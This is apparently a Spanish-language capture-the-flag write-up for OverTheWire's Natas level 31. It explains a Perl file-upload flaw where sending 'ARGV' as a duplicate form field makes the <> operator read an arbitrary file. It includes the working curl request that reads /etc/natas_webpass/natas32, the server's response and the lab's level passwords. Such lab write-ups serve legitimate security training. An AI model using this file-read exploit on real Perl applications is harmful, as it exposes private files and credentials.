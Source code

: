 # Natas 31

#### URL: http://natas31.natas.labs.overthewire.org/
#### Credenciales: natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y

En Perl hay una vulnerabilidad al subir archivos, y es que el operador <> no acepta cadenas a menos que sea ARGV, en cuyo caso iterará sobre los ARG pasados como argumentos y los insertara en una llamada a open()

En resumen, AFR:

![2025-03-21-153213_1366x768_scrot](https://github.com/user-attachments/assets/c2a47dbd-b87d-480b-b6d9-3baf828aa987)

Solo tenemos que pasar "ARGV" como otro valor con el mismo identificador que el archivo a subir
```
echo "1;2;3;4" > file.csv
curl -u natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y -F file=ARGV -F file=@/home/kalcast/Laboratorio/file.csv submit=Upload http://natas31.natas.labs.overthewire.org/index.pl?/etc/natas_webpass/natas32
curl: (3) URL rejected: Bad hostname
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<!-- Bootstrap -->
<link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas31", "pass": "<censored>" };</script>
<script src="sorttable.js"></script>
</head>
<script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>

<!-- morla/10111 -->
<style>
#content {
    width: 900px;
}
.btn-file {
    position: relative;
    overflow: hidden;
}
.btn-file input[type=file] {
    position: absolute;
    top: 0;
    right: 0;
    min-width: 100%;
    min-height: 100%;
    font-size: 100px;
    text-align: right;
    filter: alpha(opacity=0);
    opacity: 0;
    outline: none;
    background: white;
    cursor: inherit;
    display: block;
}

</style>


<h1>natas31</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B
</th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

#### Visualizacion de la peticion en Burpsuite

![2025-03-21-154409_1062x361_scrot](https://github.com/user-attachments/assets/0d49df2f-72ff-48f6-87e1-1f3d865d6bae)

`natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B`

PD: The Perl Jam 2 --> https://www.youtube.com/watch?v=BYl3-c2JSL8
